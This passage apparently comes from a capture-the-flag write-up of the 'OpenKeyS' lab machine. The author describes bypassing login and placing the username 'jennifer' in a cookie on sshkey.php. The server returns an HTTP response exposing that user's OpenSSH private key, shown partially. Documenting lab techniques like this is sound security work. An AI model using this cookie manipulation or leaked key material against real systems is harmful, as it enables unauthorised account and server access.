 Putting the username in the cookie seemed like a good bet, and logging in with the bypass and doing this gave me a redirect on the login page

![](../../.gitbook/assets/4-schallenge-jennifer.png)

After getting a valid logged in PHP session ID, I tried multiple ways of specifying the only username I had found. I was able to give the name in the cookie on the `sshkey.php` page and get a response back!

```text
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: close
Content-type: text/html; charset=UTF-8
Date: Fri, 13 Nov 2020 01:55:44 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: OpenBSD httpd
X-Powered-By: PHP/7.3.13
Content-Length: 3093

<!DOCTYPE html>


<html><head><title>OpenKeyS - Retrieve your OpenSSH Keys</title></head><body><div><h3>OpenSSH key for user jennifer</h3><p style='font-family: monospace, monospace;'>-----BEGIN OPENSSH PRIVATE KEY-----<br />
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn<br />
NhAAAAAwEAAQAAAYEAo4LwXsnKH6jzcmIKSlePCo/2YWklHnGn50YeINLm7LqVMDJJnbNx<br />
OI6lTsb9qpn0zhehBS2RCx/i6YNWpmBBPCy6s2CxsYSiRd3S7NftPNKanTTQFKfOpEn7rG<br />
nag+n7Ke+iZ1U/FEw4yNwHrrEI2pklGagQjnZgZUADzxVArjN5RsAPYE50mpVB7JO8E7DR<br />
PWCfMNZYd7uIFBVRrQKgM/n087fUyEyFZGibq8BRLNNwUYidkJOmgKSFoSOa9+6B0ou5oU<br />
qjP7fp0kpsJ/XM1gsDR/75lxegO22PPfz15ZC04APKFlLJo1ZEtozcmBDxdODJ3iTXj8Js<br />
kLV+lnJAMInjK3TOoj9F4cZ5WTk29v/c7aExv9zQYZ+sHdoZtLy27JobZJli/9veIp8hBG<br />
717QzQxMmKpvnlc76HLigzqmNoq4UxSZlhYRclBUs3l5CU9pdsCb3U1tVSFZPNvQgNO2JD<br />
S7O6sUJFu6mXiolTmt9eF+8SvEdZDHXvAqqvXqBRAAAFmKm8m76pvJu+AAAAB3NzaC1yc2<br />
EAAAGBAKOC8F7Jyh+o83JiCkpXjwqP9mFpJR5xp+dGHiDS5uy6lTAySZ2zcTiOpU7G/aqZ<br />
9M4XoQUtkQsf4umDVqZgQTwsurNgsbGEokXd0uzX7TzSmp000BSnzqRJ+6xp2oPp+ynvom<br />
dVPxRMOMjcB66xCNqZJRmoEI52YGVAA88VQK4zeUbAD2BOdJqVQeyTvBOw0T1gnzDWWHe7<br />
iBQVUa0CoDP59PO31MhMhWRom6vAUSzTcFGInZCTpoCkhaEjmvfugdKLuaFKoz+36dJKbC<br />
f1zNYLA0f++ZcXoDttjz389eWQtOADyhZSyaNWRLaM3JgQ8XTgyd4k14/CbJC1fpZyQDCJ<br />
```